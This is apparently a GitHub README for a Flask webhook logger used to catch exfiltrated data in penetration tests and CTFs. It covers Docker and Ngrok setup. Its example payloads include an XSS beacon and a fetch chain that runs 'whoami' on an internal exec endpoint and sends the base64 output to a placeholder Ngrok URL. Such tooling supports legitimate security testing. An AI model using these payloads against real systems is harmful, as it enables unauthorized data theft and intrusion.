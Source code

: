 # Webhook Logger with Auto-Refresh Log Viewer

This Flask-based webhook logger captures incoming HTTP requests and provides a real-time, scrollable interface to view logs. It's designed for testing XSS, RCE, CSRF payloads during penetration testing or CTF exercises.

It provides:
- `/log` – accepts POST/GET data and logs it
- `/view` – scrollable, auto-refreshing web UI for reviewing logs

---

## Features

- Stores logs in `logs/payloads.log`
- Auto-refreshes every 5 seconds
- Scrollable log view for long sessions
- Compatible with CORS
- Ideal for XSS, RCE, and CSRF data exfiltration testing

---

## Manual Setup

### Requirements

- Python 3.x
- Flask

Install dependencies:

```bash
pip install flask flask-cors
```

Run the server manually:

```bash
python webhook.py
```

Server will start on: [http://localhost:8080](http://localhost:8080)

---

## Docker Setup

Build and run using Docker:

```bash
docker build -t webhook-logger ./app
docker run -d -p 8080:8080 --name webhook_logger webhook-logger
```

Or use Docker Compose (recommended):

```bash
docker compose up --build
```

Accessible at:
- Webhook endpoint: [http://localhost:8080/log](http://localhost:8080/log)
- Viewer: [http://localhost:8080/view](http://localhost:8080/view)

Logs are saved in `./app/logs/payloads.log` (persisted via volume).

---

## Remote Access via Ngrok

To expose your local Flask server publicly using Ngrok:

```bash
docker run --rm -it --network=host -e NGROK_AUTHTOKEN=Your-AUth-Token ngrok/ngrok http 8080
```

Use the generated Ngrok URL in your payloads:

```javascript
fetch("https://your-ngrok-url.ngrok-free.app/log", {
  method: "POST",
  body: "XSS triggered!"
});
```

---

## Example Payloads

Send a basic XSS beacon:

```javascript
fetch("http://your-server:8080/log", {
  method: "POST",
  body: "XSS triggered!"
});
```

Exfiltrate command output (RCE scenario):

```javascript
fetch("http://127.0.0.1:9000/internal/exec", {
  method: "POST",
  body: "whoami"
})
.then(r => r.text())
.then(t => fetch("https://your-ngrok-url.ngrok-free.app/log", {
  method: "POST",
  body: btoa(t)
}));
```

---

## Log File

All captured data is saved in:
```
logs/payloads.log
```

View logs in the browser via `/view` or monitor the file directly.

---

## Notes

- You can use Ngrok to make the webhook reachable from the internet.
- Adjust `app.run()` if you want to change the default port from `8080`.
- Auto-refresh interval and scroll height can be configured in the HTML template.

---

## Author

**w01f**

Built for use in CTFs, Red Team operations, and custom payload exfiltration scenarios.
